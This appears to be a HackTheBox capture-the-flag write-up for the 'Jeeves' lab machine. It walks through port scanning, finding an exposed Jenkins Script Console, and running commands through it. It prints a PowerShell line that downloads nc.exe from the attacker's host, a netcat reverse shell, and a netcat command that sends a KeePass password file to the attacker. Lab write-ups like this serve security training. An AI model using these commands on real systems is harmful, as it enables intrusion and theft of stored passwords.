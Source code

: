 ```yaml
---
layout: post
title:  "HackTheBox Writeup: Jeeves"
date:   2018-03-15 00:00:00 -0400
categories: master
---
```


[[do intro]]

A quick port scan reveals that the following ports are open. We notice that port 50,000 is 
open, which is unusual.
```
root@kali:~# masscan -e tun0 -p0-65535 --max-rate 500 10.10.10.63

Starting masscan 1.0.3 (http://bit.ly/14GZzcT) at 2018-03-15 23:22:43 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 50000/tcp on 10.10.10.63                                  
Discovered open port 80/tcp on 10.10.10.63                                     
Discovered open port 135/tcp on 10.10.10.63                                    
Discovered open port 445/tcp on 10.10.10.63 
```

Let's enumerate these ports a bit more with nmap:
```
root@kali:~# nmap -p80,135,445,50000 -sV -sS -T4 10.10.10.63 -v

Nmap scan report for 10.10.10.63
Host is up (0.18s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.63 seconds
           Raw packets sent: 8 (328B) | Rcvd: 5 (204B)
```
So we see that port 50000 is running Jetty, which is a Java http server.
Let's quickly view port 80 in a web browser first.

![Port 80 web server](https://i.imgur.com/7skF1nf.png "Ask Jeeves on port 80")

Inputting any type of text leads to an error, or specifically, an image of an error.
![AskJeeves error](https://i.imgur.com/PAavAlF.png "Error upon input on Ask Jeeves")

There doesn't seem to be much else to do, and my instincts tell me that the real prize lies in 
port 50,000, so let's try that next. going to that port reveals a 404 error.

![Port 5000 Jetty HTTP Server](https://i.imgur.com/GZf8gNr.png "404 Error on Node, port 
50,000")

Not to be discouraged, and feeling that there's more than meets the eye, let's run dirbuster 
to find any interesting directories. Running dirbuster with 
`/usr/share/wordlists/dirbuster/directory-list-1.0.txt` reveals the 
/askjeeves/ directory, which has Jenkins running.

![Jenkins running on port 50000 in directory askjeeves](https://i.imgur.com/9y8W6pr.png 
"Jenkins running in directory askjeeves")

Under `Manage Jenkins` we see that there is a Script Console. We can use this to execute 
system commands using the general format `println("cmd.exe /c [command]".execute().text)`

![Running dir command using Jenkin's Script Console](https://i.imgur.com/etSU1Lk.png "Running 
dir command using Jenkin's Script Console")

To get an interactive shell, let's download nc.exe onto the machine using the command below, 
with the IP address modified to your own IP address:

`println("cmd.exe /c powershell -c (new-object 
System.Net.WebClient).DownloadFile('http://10.10.14.146/scripts/nc.exe','C:\\Users\\kohsuke\\Desktop\\nc.exe')".execute().text)`

The command below will give you a reverse shell on your machine:

`println("cmd.exe /c c:\\Users\\kohsuke\\Desktop\\nc.exe 10.10.14.146 4445 -e 
C:\\WINDOWS\\System32\\cmd.exe".execute().text)`

After looking around the filesystem, you should come across a `CEH.kdbx` file under 
`C:\Users\kohsuke\Documents`. This is a keepass file that contains a directory of passwords. 

To transfer this file from the Jeeves machine to our local machine, let's set up a netcat 
listener that will take the output and store it in a file:

`nc -nlvp 1234 > CEH.kdbx`

And in our reverse shell, the following command will take the contents of `CEH.kdbx` and send 
it 
to the listener we just set up:

`nc.exe -v 10.10.14.146 1234 < C:\Users\kohsuke\Documents\CEH.kdbx`



